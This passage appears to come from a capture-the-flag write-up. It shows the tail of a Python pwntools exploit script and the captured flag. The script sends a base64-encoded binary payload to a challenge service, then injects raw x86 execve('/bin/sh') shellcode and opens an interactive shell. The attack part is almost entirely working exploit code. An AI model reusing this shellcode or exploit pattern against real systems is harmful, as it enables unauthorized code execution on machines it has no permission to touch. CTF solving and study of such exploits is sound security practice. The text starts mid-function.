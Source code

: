 ```python
        set sysroot /proc/{pid}/root
        c
        '''.format(**locals())        
        attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
    else:
        attach(io, gdbscript=gdbscript)


# =========================================================
#                         EXPLOITS
# =========================================================

def exploit():
    global io
    io = initialize()
    with open("tiny", "rb") as f:
        raw_payload = f.read()
    b64_payload = base64.b64encode(raw_payload)
    io.sendlineafter(b"sylphiette vs frieren cantikan mana? ", b64_payload)
    sleep(1)
    io.send("\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`ACE{ya_jelas_cantikan_sylphiette_lah`